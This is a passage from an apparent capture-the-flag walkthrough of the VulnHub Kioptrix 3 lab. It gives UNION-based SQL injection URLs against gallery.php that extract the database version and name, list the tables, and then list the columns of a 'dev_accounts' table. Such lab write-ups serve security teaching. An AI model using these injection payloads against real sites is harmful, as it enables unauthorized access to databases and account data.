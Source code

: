 We are able to see columns 2 and 3. Now we can substitute these numbers with SQL commands like **@@version** or **database()** - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,@@version,database(),4,5,6#`

<img src="/assets/img/blog/vulnhub-kioptrix3/kioptrix3-07.png">

Dump all tables within our database() output - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,table_name,NULL,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#` 

<img src="/assets/img/blog/vulnhub-kioptrix3/kioptrix3-08.png">

Knowing the table names, choose an interesting one and dump its columns - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,column_name,NULL,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#`
